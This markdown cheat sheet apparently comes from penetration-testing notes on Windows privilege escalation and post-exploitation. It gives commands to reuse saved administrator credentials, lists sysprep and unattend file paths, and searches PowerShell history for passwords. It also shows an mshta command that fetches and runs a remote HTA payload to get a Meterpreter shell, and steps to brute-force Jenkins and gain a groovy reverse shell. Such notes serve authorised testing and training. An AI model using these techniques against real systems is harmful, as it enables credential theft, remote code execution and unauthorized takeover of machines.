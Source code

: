 ```powershell
cmdkey /list
#If Admin creds are saved then run
runas.exe /savecred /user:administrator cmd
```
## Deleted Files
- Search Recycle bin for files that contain or may contain passwords such like **unattend.xml**
## Unattended files
```txt
C:\Windows\sysprep\sysprep.xml
C:\Windows\sysprep\sysprep.inf
C:\Windows\sysprep.inf
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\System32\Sysprep\unattend.xml
C:\Windows\System32\Sysprep\unattended.xml
C:\unattend.txt
C:\unattend.inf
dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>null
```
 ## Powershell history
** Default Location**
```powershell
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
#For example
C:\Users\zeyad\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
## Powershell Trascript
- This service logges the PowerShell session from commands and output  of the commands.
- Defualt logfile place is C:\Users\%USER%\Documents
```powershell
#Example 
cat C:\Users\zeyad\DocumentsFILE.txt | select-string "pass","cred"
```
## Upgrading from a regular shell to Meterpreter
#### Module :
**1- exploit/windows/misc/hta_server**
-   This module hosts an HTML Application (HTA) that when opened will run a payload via Powershell..
-   On attacker machine

```powershell
mshta.exe http://<URL>.hta
```
---
## Feature Abuse - Enterprise applications
-**Jenkins** : Runs as a local admin so getting a shell from it will let us own the machine we are on.
-- Visit the url then  find the admin user then brute force the password
-- After you get in ,navigate to /script and get a groovy payload to execute commands or get a reverse shell.
-- Suggested to try the username as the password or the reverse of the username as a password.
-- if you didn't manage to have access as an admin but you had access as a user you can abuse a project that you can "CONFIGURE" to get OS command execution.
-- Easy way to look for a Configurable project if there are many projects is to navigate to a project then adding ""/configure" and then bruteforce projects using burpsuite or whatever.
